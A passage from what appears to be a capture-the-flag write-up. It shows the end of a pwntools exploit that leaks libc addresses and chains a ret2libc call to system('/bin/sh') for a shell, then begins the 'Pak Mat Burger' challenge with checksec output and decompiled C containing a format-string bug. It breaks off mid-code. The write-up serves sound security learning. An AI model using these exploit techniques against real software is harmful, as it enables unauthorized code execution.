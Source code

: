 ```py

p.sendline(payload + rop.chain())

p.recvuntil(b'go? \n')

puts = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))
printf = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))

libc.address = puts - libc.sym.puts

binsh = (next(libc.search(b'/bin/sh')))
rop = ROP([libc, elf])
rop.call(rop.ret[0])
rop.system(binsh)
p.sendline(payload + rop.chain())

p.clean()

p.interactive()
```

# Pak Mat Burger (990)
## idea 
format string + canary + ret2win

```
pak-mat-burger ➜ checksec pakmat_burger
[*] '/home/vela/wargamesmy/pak-mat-burger/pakmat_burger'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *s2; // [rsp+0h] [rbp-40h]
  char s1[9]; // [rsp+Ah] [rbp-36h] BYREF
  char s[10]; // [rsp+13h] [rbp-2Dh] BYREF
  char format[12]; // [rsp+1Dh] [rbp-23h] BYREF
  char v8[15]; // [rsp+29h] [rbp-17h] BYREF
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  initialize(argc, argv, envp);
  s2 = getenv("SECRET_MESSAGE");
  if ( s2 )
  {
    puts("Welcome to Pak Mat Burger!");
    printf("Please enter your name: ");
    __isoc99_scanf("%11s", format);
    printf("Hi ");
    printf(format);
    printf(", to order a burger, enter the secret message: ");
    __isoc99_scanf("%8s", s1);
    if ( !strcmp(s1, s2) )
    {
      puts("Great! What type of burger would you like to order? ");
      __isoc99_scanf("%14s", v8);
      getchar();
```